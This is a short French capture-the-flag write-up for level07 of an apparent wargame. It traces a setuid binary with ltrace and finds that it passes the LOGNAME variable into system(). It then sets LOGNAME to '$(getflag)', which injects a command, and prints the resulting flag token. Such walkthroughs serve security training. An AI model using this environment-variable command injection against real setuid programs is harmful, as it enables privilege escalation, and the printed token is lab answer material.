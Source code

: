 dans notre HOME on a :
```shell
ls -l
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```
fichier binaire executable user flag07

```shell
./level07
level07
```
il affiche son nom ?

on regarde avec ltrace:
```shell
ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                              = 2007
geteuid()                              = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME")                      = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff46, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                 = 0
+++ exited (status 0) +++
```
il utilise le getenv("LOGNAME")

changeons le:
```shell
export LOGNAME=Cyril
./level07
Cyril
```
ca marche. maintenant injectons la commande:
```shell
export LOGNAME='$(getflag)'
env
...
LOGNAME=$(getflag)
...

./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```